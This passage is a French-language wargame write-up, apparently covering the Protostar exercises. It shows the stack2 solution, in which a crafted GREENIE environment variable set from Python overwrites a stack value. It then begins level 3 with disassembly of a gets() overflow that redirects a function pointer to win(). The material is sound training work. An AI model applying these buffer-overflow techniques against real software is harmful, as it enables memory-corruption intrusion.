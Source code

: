 La valeur de l'entier écrasé comme précédemment sur la stack doit être `0xd0a0d0a` soit `\n\r\n\r` correspondant à des retours à la ligne.

Bash nous jette quand on peut définir la variable :

```bash
$ export GREENIE=`python -c 'print "\r\n\r\n" * 20'`
: bad variable name
```

Mais on peut le faire depuis Python :

```bash
$ $ python
Python 2.6.6 (r266:84292, Dec 27 2010, 00:02:40) 
[GCC 4.4.5] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.environ["GREENIE"] = "\n\r\n\r" * 20
>>> os.system("./stack2")
you have correctly modified the variable
10496
```

## Level 3

Ici on a un exercice plus classique : la variable sur la stack correspond à un pointeur sur fonction initialisé à `null`.

Si ce pointeur n'est pas `null` la fonction pointée est appellée.

L'objectif est de faire appeller une fonction dans le programme baptisée `win()` :

```nasm
win ();
0x08048424      push    ebp
0x08048425      mov     ebp, esp
0x08048427      sub     esp, 0x18
0x0804842a      mov     dword [esp], str.code_flow_successfully_changed ; 0x8048540 ; const char *s
0x08048431      call    puts       ; sym.imp.puts ; int puts(const char *s)
0x08048436      leave
0x08048437      ret
int main (int argc, char **argv, char **envp);
; var int32_t var_4h @ esp+0x4
; var char *s @ esp+0x1c
; var unsigned long var_5ch @ esp+0x5c
0x08048438      push    ebp
0x08048439      mov     ebp, esp
0x0804843b      and     esp, 0xfffffff0
0x0804843e      sub     esp, 0x60
0x08048441      mov     dword [var_5ch], 0
0x08048449      lea     eax, [s]
0x0804844d      mov     dword [esp], eax ; char *s
0x08048450      call    gets       ; sym.imp.gets ; char *gets(char *s)
0x08048455      cmp     dword [var_5ch], 0
0x0804845a      je      0x8048477
0x0804845c      mov     eax, str.calling_function_pointer__jumping_to_0x_08x ; 0x8048560
0x08048461      mov     edx, dword [var_5ch]
0x08048465      mov     dword [var_4h], edx
0x08048469      mov     dword [esp], eax ; const char *format
0x0804846c      call    printf     ; sym.imp.printf ; int printf(const char *format)
0x08048471      mov     eax, dword [var_5ch]
0x08048475      call    eax
0x08048477      leave
```
